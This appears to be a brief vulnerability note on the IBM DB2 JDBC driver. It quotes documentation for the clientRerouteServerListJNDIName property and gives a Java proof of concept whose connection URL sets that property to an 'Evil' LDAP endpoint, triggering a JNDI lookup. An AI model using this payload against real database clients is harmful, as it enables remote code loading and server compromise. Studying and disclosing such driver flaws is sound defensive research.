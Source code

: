## 原理

> clientRerouteServerListJNDINameIdentifies a JNDI reference to a DB2ClientRerouteServerList instance in a JNDI repository of  reroute server information.clientRerouteServerListJNDIName applies only to IBM Data  Server Driver for JDBC and SQLJ type 4 connectivity, and to connections that are  established through the DataSource interface. If the value of clientRerouteServerListJNDIName is not null,  clientRerouteServerListJNDIName provides the following functions: 
>
> • Allows information about reroute servers to persist across JVMs 
>
> • Provides an alternate server location if the first connection to the data source fails

### 依赖

```xml
<dependency>
    <groupId>com.ibm.db2</groupId>
    <artifactId>jcc</artifactId>
    <version>11.5.7.0</version>
</dependency>
```

### POC

```java
Class.forName("com.ibm.db2.jcc.DB2Driver");
DriverManager.getConnection("jdbc:db2://127.0.0.1:50001/BLUDB:clientRerouteServerListJNDIName=ldap://127.0.0.1:9999/Evil;");
```

